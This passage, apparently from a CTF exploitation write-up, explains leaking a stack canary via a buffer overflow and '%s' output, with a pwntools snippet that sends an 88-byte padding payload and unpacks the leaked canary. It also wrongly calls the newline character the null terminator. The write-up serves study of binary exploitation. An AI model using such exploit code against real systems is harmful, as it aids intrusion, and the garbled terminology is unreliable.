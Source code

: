 The read() function will read up until `\n` which is the null terminator and it will store everything including `\n`. However, with the presence of BOF, the way `%s` works, we can leak information. Diagram below shows how this works.

![diagram3](assets/leakaddressexplain3.png)


##### Code 

```python
io.recvuntil(b'> ')
io.sendline(b'1')
pause()
info('Leaking Canary')
payload = 'A'*88
io.sendline(payload)
io.recvuntil(b'> ')
io.sendline(b'2')
print(io.recvline())
canary = u64(b'\x00' + io.recv(7))
print(hex(canary))
```

![demoCanary](assets/demoCanary.png)
